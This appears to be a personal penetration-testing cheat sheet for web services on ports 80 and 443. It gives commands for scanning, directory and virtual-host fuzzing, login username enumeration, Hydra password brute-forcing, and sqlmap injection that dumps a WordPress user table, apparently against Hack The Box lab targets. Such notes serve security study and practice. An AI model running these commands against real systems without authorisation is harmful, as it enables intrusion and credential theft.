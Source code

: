# 80/443 - HTTP/HTTPS

## Automated

```bash
Nuclei
https://github.com/projectdiscovery/nuclei

FinalRecon 
https://github.com/thewhiteh4t/FinalRecon
finalrecon url --full

Reconspider 
https://github.com/bhavsec/reconspider 
reconspider url

Nikto
https://github.com/sullo/nikto
nikto url
```

## Enumeration

```bash
## nmap
nmap -sV -sC -p 80,443 <ip>


whatweb http://10.129.42.190/nibbleblog

## Browser extension
https://www.wappalyzer.com
```





## Fuzzing

### Subdirectories

```bash
## ffuf
ffuf -c -ac -w ~/wordlists/medium.txt -e .txt -u http:// -ac
ffuf -c -ac -w ~/wordlists/big.txt -e -u http:// -ac

## gobuster
gobuster dir -w wordlist -u url
gobuster dir -u http://10.129.42.190/ --wordlist /usr/share/dirb/wordlists/common.txt
```

### Subdomains and Virtual Hosts

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># vhosts
</strong><strong>ffuf -c -ac -w ~/wordlists/dns.txt -u &#x3C;domain or ip> -H "Host: FUZZ.domain.com" -ac
</strong>gobuster vhost -w ~/wordlists/dns.txt -u domain.com

# subdomains
gobuster dns -w ~/wordlists/dns.txt -d domain.com
dnsenum domain.com
</code></pre>

## Bruteforcing

{% code overflow="wrap" %}
```bash
FFUF
ffuf -w wordlist -X POST -d "username=FUZZ&&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u <http://mydomain.com/login> -mr "username already exists"

Hydra
hydra -L users -P wordlist 10.10.10.193 smb
```
{% endcode %}

## Tool specific

Sqlmap

```bash
sqlmap -r admin.req -p total_service --dbs
sqlmap -r admin.req -p total_service -D blog --tables
sqlmap -r admin.req -p total_service -D blog -T wp_users --dump
## save location /home/flobeey/.local/share/sqlmap/output/websitename

Supplying the url and parameters
sqlmap -u <http://metapress.htb/wp-admin/admin-ajax.php> --data 'action=bookingpress_front_get_category_services&_wpnonce=1dc1a25630&category_id=1&total_service=1' -p total_service
## -p specifies to look at the specific input
## --data is the data from the post requestSupplying the url and parameters
```











